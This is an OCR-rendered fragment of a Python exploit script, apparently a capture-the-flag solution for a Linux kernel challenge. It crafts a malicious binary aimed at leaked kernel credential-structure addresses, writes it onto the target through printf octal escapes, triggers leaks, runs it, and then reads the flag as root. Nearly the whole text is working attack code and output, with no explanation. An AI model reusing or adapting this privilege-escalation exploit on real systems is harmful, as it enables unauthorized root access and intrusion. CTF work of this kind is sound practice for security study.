 ```python
p4 = gen_p4_binary( sections = [[0x7000000 | 7, 0x1000, 0], [cred | 8 + 0x10, 0x48, 0]] , sections_len = 2  , entry = 0x7000090 , code = asm( shellcraft.echo('Hellofewfew\n') + shellcraft.exit(0) ) )
sp( 'printf \'\\%s\' > ./pwn' % '\\'.join( oct( ord( _ ) )[1:].rjust( 3 ,'0' ) for _ in p4 ) )
sp( 'chmod +x ./pwn' )

'''
[+] cred -> 0xffff99cb021fa180
[+] cred -> 0xffff99cb021faf00
[+] cred -> 0xffff99cb021fab40
[+] cred -> 0xffff99cb021faa80
[+] cred -> 0xffff99cb021facc0

[+] cred -> 0xffff99cb021fa180
[+] cred -> 0xffff99cb021faf00
[+] cred -> 0xffff99cb021fab40
[+] cred -> 0xffff99cb021faa80
[+] cred -> 0xffff99cb021facc0
'''

for _ in range(3):
    leak()

sp( './pwn' ) # cred should be the same as first leak

y.sendlineafter( '/tmp #' , 'id && cat /flag' ) # root !

y.interactive()
```